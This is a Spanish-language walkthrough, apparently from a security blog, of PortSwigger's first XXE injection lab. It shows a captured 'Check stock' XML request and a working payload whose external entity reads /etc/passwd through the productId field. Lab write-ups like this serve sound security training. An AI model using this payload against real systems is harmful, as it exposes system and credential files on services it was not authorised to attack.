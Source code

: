 ```yaml
---
title: XXE Injection Lab 1
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting XXE using external entities to retrieve files
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Exploiting XXE using external entities to retrieve files

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` llamada `Check stock` que analiza entradas XML y devuelve cualquier valor inesperado en la respuesta. Para resolver el laboratorio, hay que `inyectar` una entidad externa XML (XXE) para `obtener` el contenido del archivo `/etc/passwd`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-1/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-1/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-1/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a usar el wrapper file para `cargar` el archivo `/etc/passwd`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Si `enviamos` la `petición` con este `payload` obtendremos el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-1/image_4.png)

